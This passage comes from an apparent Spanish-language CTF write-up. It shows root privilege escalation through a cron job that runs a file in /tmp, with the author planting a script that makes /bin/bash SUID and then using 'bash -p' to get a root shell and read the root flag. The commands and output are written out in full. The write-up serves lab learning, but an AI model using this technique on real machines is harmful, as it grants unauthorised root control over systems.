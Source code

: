 Por lo que podemos entender con esto es que por detras tiene que haber algun `crontab` programado para ejecutar dicho archivo, si nosotros nos vamos a la carpeta `/tmp` no veremos el archivo por lo que vamos a probar a crear uno malicioso a ver si se ejecuta como `root`.

```shell
nano /tmp/goodgame

#Dentro del nano
#!/bin/sh

chmod u+s /bin/bash
```

Lo guardamos, establecemos los permisos necesarios...

```shell
chmod +x /tmp/goodgame
```

Y esperamos un rato, despues de esperar vamos a comprobar que haya funcionado listando la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1168776 avril 18  2019 /bin/bash
```

Por lo que vemos a funcionado, por lo que haremos lo siguiente para ser `root`.

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Con esto seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
lasarnsilgam
```
